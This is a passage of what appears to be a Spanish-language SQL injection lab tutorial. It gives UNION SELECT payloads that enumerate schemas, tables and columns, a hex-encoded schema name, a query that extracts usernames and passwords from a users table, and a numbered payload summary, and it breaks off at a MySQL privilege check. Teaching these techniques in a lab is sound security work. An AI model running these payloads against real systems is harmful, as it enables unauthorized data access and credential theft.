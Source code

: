 La query quedaría así (añadimos `0x` para indicar el valor hexadecimal)

```bash
' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema=0x61636164656d795f6c616273-- -
```


## Listar columnas de una tabla

```sql
' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='nombre_tabla'-- -
```

## Extraer usuarios de una tabla `users`

```sql
' UNION SELECT username, password FROM users-- -
```

---

## Resumen de payloads usados

```sql
1. ' UNION SELECT 1,2-- -
2. ' UNION SELECT 1, @@version-- -
3. ' UNION SELECT 1, schema_name FROM information_schema.schemata-- -
4. ' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema='nombre_base_datos'-- -
5. ' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='nombre_tabla'-- -
6. ' UNION SELECT username, password FROM users-- -
```


---

## Otras queries útiles para SQLi (bonus)

## 1. Confirmación de la vulnerabilidad

**Acción:**

Comprobamos que el parámetro `port_code` es vulnerable inyectando un UNION SELECT.

```sql
' UNION SELECT 1,2-- -
```

## 2. Comprobar privilegios del usuario `root` en MySQL

### 2.1. Comprobar si tiene el privilegio `SUPER`
